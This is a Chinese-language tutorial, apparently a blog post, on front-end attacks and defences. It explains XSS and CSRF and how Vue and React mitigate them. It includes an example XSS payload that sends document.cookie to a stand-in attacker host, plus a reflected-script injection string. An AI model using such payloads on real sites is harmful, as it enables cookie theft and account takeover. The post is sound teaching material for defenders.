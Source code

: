 # [网络安全与防范](https://www.cnblogs.com/yinn/p/13621095.html)

## 1.重要性

随着互联网的发达，各种WEB应用也变得越来越复杂，满足了用户的各种需求，但是随之而来的就是各种网络安全的问题。了解常见的前端攻击形式和保护我们的网站不受攻击是我们每个优秀fronter必备的技能。

## 2.分类

- XSS攻击
- CSRF攻击
- 网络劫持攻击(运营商劫持)
- 控制台注入代码
- 虚假网站钓鱼

## 3.XSS攻击

XSS是一种经常出现在web应用中的计算机安全漏洞，为了和 CSS 区分，这里把攻击的第一个字母改成了X，于是叫做XSS，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。比如这些代码包括HTML代码和客户端脚本。攻击者利用XSS漏洞旁路掉访问控制——例如同源策略(same origin policy)，从而发起非法行为和获取网站的敏感数据。

### 发起方式

实施XSS攻击需要具备两个条件

- 一、需要向web页面注入恶意代码, 利用表单和url地址栏的查询字符串注入js非法代码
- 二、这些恶意代码能够被浏览器成功的执行

XSS攻击的主要目的

　　一、窃取Cookies和私信信息，发送到黑客网站上

```
var` `i=document.createElement(``"img"``);``document.body.appendChild(i);``i.src = ``"http://www.hackerserver.com/?c="` `+ document.cookie;
```

　　二、发起非法行为

```
地址栏：``http:``//www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="` `把id放入到img之后最终反射出来的HTML代码：``<div>``  ``<img src=``"/images/handler.ashx?id="` `/><script>alert(/xss/)</script><br x=``""` `/>``</div>
```

　　

### 防范措施

DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。

- 在使用 .innerHTML、.outerHTML、document.write() 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等。
- 转义HTML，过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出。
- 如果用 Vue/React 技术栈，并且不使用 v-html/dangerouslySetInnerHTML 功能，就在前端 render 阶段避免 innerHTML、outerHTML 的 XSS 隐患。
- DOM 中的内联事件监听器，如 location、onclick、onerror、onload、onmouseover 等，a标签的 href 属性，JavaScript 的 eval()、setTimeout()、setInterval() 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。

```
<!-- 内联事件监听器中包含恶意代码 -->`` ``< img  onclick = ``"UNTRUSTED"`  `onerror = ``"UNTRUSTED"`  `src = ``"data:image/png,"` `>`` ``<!-- 链接内包含恶意代码 -->`` ``< a  href = ``"UNTRUSTED"` `> 1 </ a >`` ``< script > `` ``// setTimeout()/setInterval() 中调用恶意代码``setTimeout( ``"UNTRUSTED"` `)``setInterval( ``"UNTRUSTED"` `)`` ``// location 调用恶意代码``location.href = ``'UNTRUSTED'`` ``// eval() 中调用恶意代码`` ``eval ( ``"UNTRUSTED"` `)`` ``</ script >
```

　　

## 4.CSRF攻击

攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。 Cookie是按照Domain存储的，当请求一个网站的时候，浏览器会自动把这个网站的Cookie发送过去。

### 发起方式

1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

### 图解流程

![img](https://img2020.cnblogs.com/blog/1235070/202009/1235070-20200906111907026-1595439827.png)

 

 

### 防范措施

CSRF攻击是攻击者利用用户的身份(Cookie)操作用户帐户的一种攻击方式，我们可以利用修改登录态的位置（由cookie中放到地址栏或者自定义请求头部）和refer的判断来防御CSRF攻击，由前端和服务端配合一起解决CSRF攻击。

- - 验证HTTP Referer字段
    根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须在 bank.example网站发起请求，referer的域名一定指向bank.example。如果 Referer 是其他网站的话，则有可能是黑客的CSRF攻击，拒绝该请求。但Referer值是由浏览器提供的，服务端可以绕过这个限制修改Referer字段发起攻击。
  - 在HTTP头中自定义属性并验证
    这种方法是使用token并进行验证，把token的位置由Cookie移到http请求的头部，使第三方网站无法盗用身份信息。解决了在请求地址栏中加入token的不便，同时通过 XMLHttpRequest请求的地址不会被记录到浏览器的地址栏，也不用担心token会透过 Referer泄露到其他网站中去。
  - 添加验证码操作
    增加与用户的互动，即便是最简陋的验证码也能起到很好的效果

## 5.XSS与CSRF之间的区别

| 攻击类型                         | 字面理解                                                     | 宿主网站 | 攻击方式                                      |
| -------------------------------- | ------------------------------------------------------------ | -------- | --------------------------------------------- |
| XSS(cross site script)           | 跨站脚本攻击，在别人的网站注入JS脚本以触发非法操作或者获取别人网站的私密信息 | A网站    | 给A网站注入JS脚本                             |
| CSRF(cross site request forgery) | 跨站请求伪造，在钓鱼网站伪装成正常网站，非法使用浏览器自带Cookie的机制发起伪造正常网站的请求 | A网站    | 在B网站借助A网站的Cookie，伪造发起A网站的请求 |

 

## 6.在Vue与React中的防范措施

- JSX中防止XSS注入攻击
  - React DOM 在渲染所有输入内容之前，默认会进行转义。它可以确保在你的应用中，永远不会注入那些并非自己明确编写的内容。所有的内容在渲染之前都被转换成了字符串。这样可以有效地防止 XSS（cross-site-scripting, 跨站脚本）攻击。
  - dangerouslySetInnerHTML 是 React 为浏览器 DOM 提供 innerHTML 的替换方案。但当你想设置 dangerouslySetInnerHTML 时，需要向其传递包含 key 为 __html 的对象，以此来警示你。
- 在Vue中尽量不要使用v-html
  - 在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 XSS 攻击。只在可信内容上使用 v-html，永不用在用户提交的内容上。